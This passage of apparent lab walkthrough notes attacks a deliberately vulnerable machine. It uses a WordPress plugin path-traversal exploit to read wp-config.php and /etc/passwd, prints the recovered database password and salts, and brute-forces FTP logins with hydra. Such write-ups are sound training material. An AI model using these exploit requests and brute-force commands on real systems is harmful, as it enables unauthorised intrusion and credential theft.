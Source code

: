 ```python
        urls = re.findall('"(https?://.*?)"', line)
        if len(urls):
            image_content = requests.get(urls[0], verify=False).content
            print(image_content.decode('utf-8'))
```

The exploit uploads files here:
```
https://10.0.0.26:12380/blogblog/wp-content/uploads/
```

Download and decode the file:
```bash
wget --no-check-certificate https://10.0.0.26:12380/blogblog/wp-content/uploads/1763436127.jpeg

iconv -t UTF8 1763436127.jpeg 
```
=> wp-config file
=>Creds:
```
# MySQL
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'plbkac');

# Authentication Unique Keys and Salts.
define('AUTH_KEY',         'V 5p=[.Vds8~SX;>t)++Tt57U6{Xe`T|oW^eQ!mHr }]>9RX07W<sZ,I~`6Y5-T:');
define('SECURE_AUTH_KEY',  'vJZq=p.Ug,]:<-P#A|k-+:;JzV8*pZ|K/U*J][Nyvs+}&!/#>4#K7eFP5-av`n)2');
define('LOGGED_IN_KEY',    'ql-Vfg[?v6{ZR*+O)|Hf OpPWYfKX0Jmpl8zU<cr.wm?|jqZH:YMv;zu@tM7P:4o');
define('NONCE_KEY',        'j|V8J.~n}R2,mlU%?C8o2[~6Vo1{Gt+4mykbYH;HDAIj9TE?QQI!VW]]D`3i73xO');
define('AUTH_SALT',        'I{gDlDs`Z@.+/AdyzYw4%+<WsO-LDBHT}>}!||Xrf@1E6jJNV={p1?yMKYec*OI$');
define('SECURE_AUTH_SALT', '.HJmx^zb];5P}hM-uJ%^+9=0SBQEh[[*>#z+p>nVi10`XOUq (Zml~op3SG4OG_D');
define('LOGGED_IN_SALT',   '[Zz!)%R7/w37+:9L#.=hL:cyeMM2kTx&_nP4{D}n=y=FQt%zJw>c[a+;ppCzIkt;');
define('NONCE_SALT',       'tb(}BfgB7l!rhDVm{eK6^MSN-|o]S]]axl4TE_y+Fi5I-RxN/9xeTsK]#ga_9:hJ');
```

Read etc passwd with modified exploit line
```python
response1 = requests.get(f"{url}/wp-admin/admin-ajax.php?action=ave_publishPost&title=etcpasswd{randomID}&short=rnd&term=rnd&thumb=../../../../../../../../../../../../../../../../../../../../../etc/passwd", verify=False)
```

Extract all users from etc passwd:
```bash
awk -F: '$3 >= 1000 {print $1}' etc_passwd > users.txt
```

Brute force FTP:
```bash
hydra -I -e nsr -L users.txt 10.0.0.26 ftp

# [21][ftp] host: 10.0.0.26   login: SHayslett   password: SHayslett
# [21][ftp] host: 10.0.0.26   login: elly   password: ylle
```
=> elly and SHayslett FTP root are both mapped to /etc ?
